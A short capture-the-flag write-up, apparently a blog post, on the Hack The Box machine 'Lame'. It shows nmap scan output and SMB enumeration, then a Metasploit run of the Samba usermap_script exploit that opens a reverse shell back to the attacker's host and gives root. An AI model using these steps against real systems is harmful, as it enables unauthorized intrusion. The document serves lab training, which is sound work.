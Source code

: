 ```yaml
---
layout: post
title: Lame
date: 2020-03-30
author: th3-3inst3in
comments: true
categories: htb
tags: [Linux,htb]
---
```


## Legacy writeup

Easy linux machine

![main]({{ site.giturl }}/MyCtfWriteups/assets/images/htb/Lame/main.png)


Let's do a quick nmap all ports

```perl

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.3
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:                                                                                                                                                                                        
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)                                                                                                                                             
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)                                                                                                                                        
|_smb-security-mode: ERROR: Script execution failed (use -d to debug)                                                                                                                                       
|_smb2-time: Protocol negotiation failed (SMB2)                                 

```

<br>

### Enumeration

- Tried to enumerate using smbclient

![smb-enum]({{ site.giturl }}/MyCtfWriteups/assets/images/htb/Lame/smbclient.png)


Found nothing As you can see I also tried to put an exploit on the shared folder but no seed. Tried to enumerate the version of the SMB using metasploit

```perl

msf5 auxiliary(scanner/smb/smb_version) > set rhosts 10.10.10.3
rhosts => 10.10.10.3
msf5 auxiliary(scanner/smb/smb_version) > run

[*] 10.10.10.3:445        - Host could not be identified: Unix (Samba 3.0.20-Debian)
[*] 10.10.10.3:445        - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

### Exploitation

Found an exploit for the Samba version found. ran that and got a root shell



```perl
msf5 exploit(multi/samba/usermap_script) > set rhosts 10.10.10.3
rhosts => 10.10.10.3
msf5 exploit(multi/samba/usermap_script) > set lhost 10.10.14.3
lhost => 10.10.14.3
msf5 exploit(multi/samba/usermap_script) > exploit

[*] Started reverse TCP double handler on 10.10.14.3:4444 
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo jWLKJ2BffrrkAeob;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "jWLKJ2BffrrkAeob\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.10.14.3:4444 -> 10.10.10.3:33405) at 2020-03-30 03:39:07 -0400

id
uid=0(root) gid=0(root)

```
That's all pretty simple